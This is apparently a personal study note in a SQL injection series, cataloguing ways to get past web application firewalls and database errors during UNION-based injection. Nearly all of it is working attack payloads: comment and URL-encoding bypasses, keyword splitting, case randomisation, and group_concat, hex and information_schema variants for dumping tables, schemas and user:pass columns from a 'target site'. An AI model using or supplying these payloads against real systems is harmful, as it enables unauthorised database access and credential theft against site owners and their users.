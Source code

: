 # <mark style="background: #FF5582A6;">For Review :</mark> 
[[02-Sql Injection (Basic)]]
# Intro :
## <mark style="background: #FF5582A6;">Attention to errors :</mark> 
on target site that give us several warning during the penetration test, in addition to the main error; which is for the number of columns.
when reducing the number of columns (order by), even if one of the warning is cleared.
we see this as a sign of the loading of the target site and we can go to the next step (union select), and it isn't necessary to continue the step of finding the number of columns untill all the warnings are cleared.
# Errors :
1. Forbidden Or Not Acceptable Or Internal Server Error Or 412 Error:
	- <mark style="background: #FFB86CA6;">/*!12345 */</mark> 
		for example :
		/* !12345union * / /* !12345select * / 1,2,3,4,5,
		/* !12345group_concat(table_name) * /,7,8,9 /* !12345from * / 
		/* !12345information_schema * /./* !12345tables * / where table_schema=database()--
	### <mark style="background: #FF5582A6;">Point 1 :</mark> 
	if the above bypass doesn't work :
    - <mark style="background: #FFB86CA6;">%23AAAAA%0aunion %23AAAAA%0aselect ...</mark> 
	 (%23AAAAA%0a it's only use for union and select)
      if the above bypass doesn't work again :
	URL Encode :
     - we hex the first u of the union and the first s of the select and put the % instead of 0x.
		(u in union ---> 0x75 ---> %75 ---> %75nion)
		(s in select ---> 0x73 ---> %73 ---> %73elct)

	<mark style="background: #FF5582A6;">other bypass : </mark> 
	- (union) (select)
	- (uni)(on) (sel)(ect)
	- uni * on sel * ect
	   (there are no spaces in the command, except between union and select)
	- uni/ * * /ion sel/ * * /ect
	   (there are no spaces in the command, except between union and select)
	- uni%0bon sel%0bect
	- %2575nion %2575elect
	   (in addition to the first letter, we have also hexed : %)

	  ### <mark style="background: #FF5582A6;">Point 2 :</mark> 
	  if the problem isn't solved with these bypasses :
	- we turn on the CapsLock and from each of the words of our command code, we wirte which letter is randomly capitalized.
	   if the problem is still not solved, we should see which of the words in our code the target site is sensitive to.
	   in such a way that :
	- first, we delete the <mark style="background: #FF5582A6;">group_concat</mark> so that only the <mark style="background: #FF5582A6;">table_name</mark> remains.
	- if the problem wasn't from the <mark style="background: #FF5582A6;">group_concat</mark> , we delete our commands from the <mark style="background: #FF5582A6;">from</mark> to the end, so that only the <mark style="background: #FF5582A6;">table_name</mark> remains and instead of the <mark style="background: #FF5582A6;">table_name</mark> we wirte <mark style="background: #FF5582A6;">the corresponding column number</mark>. if it's loaded correctly, it means that 100% of the problem is from <mark style="background: #FF5582A6;">table_name</mark> . there is no replacement for table_name, so we continue the target with :
	- [[09-Version 4]]

2. the used SELECT statements have a different number of columns :
	1. [[12-Xpath Injection]]
	2. Point 1 in third step in [[02-Sql Injection (Basic)]]
		((-) behind the ?id number and etc)
	3. Change directory

3. Illegal mix of collation for operation 'UNION' :
	- <mark style="background: #FFB86CA6;">unhex(hex(group_concat(table_name)))</mark> 
		(it also used for when <mark style="background: #FF5582A6;">the important table doesn't show us any column</mark> )

4. Permission Denied in first step :
	- <mark style="background: #FFB86CA6;">using group by instead of order by</mark> 

5. if we see a ('/') in the error, it means that the site is sensitive to quotations.

6. Redirecting the page :
	if the page redirecting by typing quotation at the end of the URL, it means it goes to another page, we typing (order by 9999--) which will probably be redirecting again, but if we typing (order by 1--) and the page isn't redirectiong, so being redirecting means the site isn't load or it's an error.
	therefore, we find the number of columns in the same way as we learned in the
	[[02-Sql Injection (Basic)]].

7. Table 'the name of table' doesn't exist :
	we must write the name of the database before the important table :
	- <mark style="background: #FFB86CA6;">the name of database<mark style="background: #FF5582A6;">.</mark> the important table</mark> 
	if the site has several database with :
	- <mark style="background: #FFB86CA6;">union select group_concat(schema_name) from information_schema.schemata--</mark> 
	we find all databases of the site and put them one by one before the important table to find out which database is for the important table.

8. Service Unavailable Error :
	<mark style="background: #FF5582A6;">sensitive to group_concat</mark> 
	when we delete the group_concat, the site only show us one table.
	so we use :
	[[06-Limit (Method)]]
	to see rest of the tables one by one.

9. We may encounter a <mark style="background: #FF5582A6;">fatal error or Illegal mix of collation for operation 'UNION' </mark> in one of the following stage :
	1. group_concat(table_name)
	2. group_concat(column_name)
	3. group_concat(user,0x3a,pass)
	
	(Or don't display the information and don't have any error Or display the information but have an initial error)
	the bypass is as follows :
	- <mark style="background: #FFB86CA6;">unhex(hex(group_concat(table_name)))</mark> 

	if the problem isn't solved :
	- <mark style="background: #FFB86CA6;">uncompress(compress(group_concat(table_name)))</mark> 

	if in third stage encounter to above errors, in addition to these ways for solve the problem also we can :
	- we turn on the CapsLock and from each of the words of our command code, we wirte which letter is randomly capitalized.
	  (Except unhex, hex, important table, important columns).

10. The target site sensitive to tables (in the phrase : <mark style="background: #FF5582A6;">from information_schema.tables</mark> ),
     Tables alternatives :
	- <mark style="background: #FFB86CA6;">from information_schema.statistics--</mark> 
	- <mark style="background: #FFB86CA6;">from information_schema.partitions--</mark> 

11. The target site sensitive to : <mark style="background: #FF5582A6;">where table_schema=database()--</mark> 
	the alternative to the above command code is :
	- <mark style="background: #FFB86CA6;">from information_schema.keys_column_usage--</mark> 

12. If in the <mark style="background: #FF5582A6;">group_concat</mark> step, the target page became wihte with no text :
	- <mark style="background: #FFB86CA6;">unhex(hex(group_concat(table_name)))</mark> 

13. Some site have limitations on character printing, so when we delete (br in '<>'),
    the target site may show us more important characters.
    
    When a site has a character limit, we have to delete the <mark style="background: #FF5582A6;">group_concat</mark> , sometimes it displays all the tables one by one without <mark style="background: #FF5582A6;">group_concat</mark> , but if it doesn't happen like this : [[06-Limit (Method)]]

14. If with :
	- <mark style="background: #FF5582A6;">?id=1 order by 9999--</mark> 
	the site was loaded, according to what we learned, we know the site shouldn't be loaded, so we write :
	- <mark style="background: #FF5582A6;">?id=1' order by 9999--+</mark> 
	if we encounter an <mark style="background: #FF5582A6;">forbidden</mark> at this step, we give the possibility that the site is <mark style="background: #FF5582A6;">sensitive to quotation ( ' ) or +</mark> .
	of course, there is no need to encounter an forbidden and when we use (' +)
	and ('order by 9999--+) and ('order by 1--+) gave us an error, we should doubt that the site is sensitive to + at the end of our command.
	quotation has no replacement, but the + in last of the our command can be changed in the following ways :
	1. -- -
	2. +--+
	3. +--+-
	4. --#
	5. -- * /          (there are no spaces in the command) 
	6. --/ * * /      (there are no spaces in the command)
	7. --* / * * /    (there are no spaces in the command)

15. If a site delete the <mark style="background: #FF5582A6;">union select</mark> , it means, that the site is sensitive to <mark style="background: #FF5582A6;">union select</mark> 
     so we do this :
       - <mark style="background: #FFB86CA6;">UNIunionON SELselectECT</mark> 

16. if important tables are not shown in the source ([[05-Source (Method)]]) :
	- <mark style="background: #FFB86CA6;">unhex(hex(group_concat(table_name)))</mark> 

17. when we tarnslated the important table or important columns of a non-English site and saw the confused and strange letters that were not understandabe, instead of <mark style="background: #FF5582A6;">unhex(hex(group_concat(table_name)))</mark> we write :
	 - <mark style="background: #FFB86CA6;">binary(group_concat(table_name))</mark> 
